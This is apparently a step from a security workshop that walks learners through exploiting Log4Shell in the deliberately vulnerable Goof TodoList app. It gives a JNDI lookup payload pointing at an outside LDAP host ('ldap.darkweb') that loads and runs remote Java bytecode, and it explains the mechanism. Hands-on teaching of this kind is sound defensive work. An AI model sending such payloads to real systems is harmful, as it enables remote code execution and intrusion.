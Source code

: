 +++
title = "Step 7: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## 🚨 **CAUTION** 🚨
> **This section demonstrates exploiting an RCE vulnerability in the TodoList application from the Goof repo. Ensure you understand the security implications and use a controlled, isolated environment to avoid any unintended security risks.**

## Exploiting an RCE vulnerability in the TodoList application

The Goof repo TodoList application contains a variety of exploits designed to demonstrate the risks posed by open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly prolific open source package with a critical CVE that was relatively easy to exploit and gives malicous actors a remote code execution (RCE) vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo http://$TODOLIST_LB/todolist
```
Example LB Address
```
http://a4b2da77928d242b38e4229083fc2669-2133201151.us-east-2.elb.amazonaws.com/todolist
```

When you Click on that URL in your Cloud9 IDE and select "Open", you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User:
```bash
foo@bar.org
```
* Password:
```bash
foobar
```

![todolist-login](/images/todolist-login.png)

### Trigger the exploit

In the search field enter the following string and submit the search.
```bash
${jndi:ldap://ldap.darkweb:80/#Vandalize}
```
![todolist-search](/images/todolist-search-jndi.png)

### Vandalized!
Immediately, you can see that the header for the entire site has been changed to display a hacker's equivalent of graffiti!
![todolist-vandalized](/images/todolist-vandalized.png)

## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catching and stoping this
In the next step we will look into ways to catch and fix vulnerabilities like this.
